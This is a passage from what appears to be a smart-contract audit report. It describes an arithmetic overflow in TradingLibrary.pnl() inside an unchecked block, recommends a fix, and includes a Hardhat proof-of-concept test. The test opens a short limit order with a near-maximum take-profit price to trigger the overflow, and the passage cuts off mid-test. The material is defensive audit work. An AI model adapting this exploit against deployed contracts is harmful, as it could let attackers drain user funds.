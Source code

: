 The core issue is that the arithmetic in `TradingLibrary.pnl()` overflows. I recommend removing the `unchecked` block.

### [](#proof-of-concept-2)Proof of Concept

Insert the following code as test into `test/07.Trading.js` and run it with `npx hardhat test test/07.Trading.js`:

    describe("PoC", function () {
        it.only("PoC", async function () {
          // Setup token balances and approvals
          const mockDAI = await ethers.getContractAt("MockERC20", MockDAI.address)
          await mockDAI.connect(owner).transfer(user.address, parseEther("10000"))
          await mockDAI.connect(user).approve(trading.address, parseEther("10000"))
          const permitData = [
            "0",
            "0",
            "0",
            "0x0000000000000000000000000000000000000000000000000000000000000000",
            "0x0000000000000000000000000000000000000000000000000000000000000000",
            false
          ]
    
          // Create referral code
          await referrals.connect(user).createReferralCode(ethers.constants.HashZero)
    
          // Set the fees
          await trading.connect(owner).setFees(
            false,        // close
            "200000000",  // dao  
            "0",          // burn
            "100000000",  // referral
            "0",          // bot
            "0",          // percent
          )
    
    
          // ============================================================== //
          // =================== Create the limit order =================== //
          // ============================================================== //
          const tradeInfo = [
            parseEther("1"),          // margin amount
            MockDAI.address,          // margin asset
            StableVault.address,      // stable vault
            parseEther("2"),          // leverage
            0,                        // asset id
            false,                    // direction (short)
            "115792089237316195423570985008687907854269984665640564039467",          // take profit price
            parseEther("0"),       // stop loss price
            ethers.constants.HashZero // referral (ourself)
          ];
    
          // Create the order
          await trading.connect(user).initiateLimitOrder(
            tradeInfo,            // trade info
            1,                    // order type (limit)
            parseEther("1000"),   // price
            permitData,           // permit
            user.address          // trader
          )
    